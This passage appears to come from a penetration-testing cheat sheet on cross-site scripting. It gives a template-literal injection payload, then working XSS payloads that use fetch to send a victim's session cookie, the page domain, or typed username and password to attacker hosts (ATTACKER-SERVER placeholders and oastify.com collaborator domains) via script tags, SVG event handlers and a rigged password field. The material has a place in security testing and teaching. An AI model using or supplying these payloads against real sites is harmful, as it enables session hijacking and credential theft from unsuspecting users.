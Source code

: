 When the injected input is being reflected inside of backticks, you can execute expressions using the ${data} format. An example:

```html
<script>var message=`user-input`</script>
```

A payload may be:

```javascript
${alert(1)}
```
# XSS to Exploit Users

As an example, you can inject the following to steal a user's session cookie. Here, the attacker-server could be Burp Collaborator:

```javascript
<script>
fetch('https://ATTACKER-SERVER', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
```

You can inject the fetch function in any event handler that executes JavaScript, including:

```html
<svg onload="fetch('https://277ebucws3h.oastify.com', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});"></svg>
```

```html
<style>@keyframes x{}</style>
<svg style="animation-name:x" onanimationend="fetch('https://yoqy8pwqkf.oastify.com', {
method: 'POST',
mode: 'no-cors',
body:document.domain
});"></svg>
```

Following on, you can inject the following to steal a user's credentials:

```html
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://ATTACKER-SERVER',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```
